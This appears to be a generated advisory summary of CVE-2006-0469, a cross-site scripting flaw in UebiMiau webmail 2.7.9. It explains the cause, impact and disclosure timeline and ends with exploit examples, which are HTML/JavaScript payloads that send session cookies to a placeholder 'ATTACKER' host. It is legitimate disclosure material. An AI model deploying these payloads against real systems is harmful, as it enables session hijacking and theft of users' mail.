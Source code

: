 Based on the provided content, here's a breakdown of the vulnerability associated with CVE-2006-0469:

**Root Cause of Vulnerability:**

*   The root cause is a lack of proper filtering of HTML email messages within the UebiMiau Webmail System. This allows for the injection of malicious scripting code into emails.

**Weaknesses/Vulnerabilities Present:**

*   **Cross-Site Scripting (XSS):** The primary vulnerability is XSS. The system does not sanitize or encode HTML content within emails, allowing an attacker to inject arbitrary JavaScript.

**Impact of Exploitation:**

*   **Session Hijacking:** An attacker can hijack a user's session by injecting malicious code. This allows the attacker to access the victim's mailbox and potentially perform actions on their behalf.
*   **Arbitrary Code Execution:** The injected JavaScript code can be used to execute arbitrary commands within the user's browser.
*   **Data Theft:** The attacker can steal session cookies or other sensitive information via the crafted email.

**Attack Vectors:**

*   **Email Injection:** The vulnerability is exploited by sending a specially crafted email message containing malicious HTML and JavaScript code.
*   **No User Interaction (in some cases):** In some scenarios, the client-side code executes as soon as the victim opens the email. It doesn't always require the user to click on a link.

**Required Attacker Capabilities/Position:**

*   **Remote Attacker:** The attacker can be located remotely, as they only need to send an email to the vulnerable user.
*   **Ability to Craft Emails:** The attacker needs the ability to craft emails containing malicious HTML and JavaScript.
*   **Email Delivery:** The attacker needs a way to deliver the email to the targeted user, such as via an email server.

**Additional Details:**

*   **Affected Versions:** UebiMiau version 2.7.9 and likely previous versions are affected by this vulnerability.
*   **Vendor Notification:** The vulnerability was discovered on 2006-01-12, and the vendor was notified the same day, but no response was received, resulting in public disclosure on 2006-01-28.
*   **No Patch Available:** As of the time of the advisory, no vendor-supplied patch was available.

**Exploit Example(s):**

The following examples were provided demonstrating the ability to steal session cookies:

   ```html
   <img src="javascript:location.href='http://ATTACKER/StealSessionData/?'+document.cookie;" />
   <img src="javascript:[XSS];" />
    <a href="javascript:location.href='http://ATTACKER/StealSessionData/'">test link 1</a>
   <a href='http://ATTACKER/StealData/'>test link 2</a>
   ```

This information provides a comprehensive overview of the vulnerability described in CVE-2006-0469.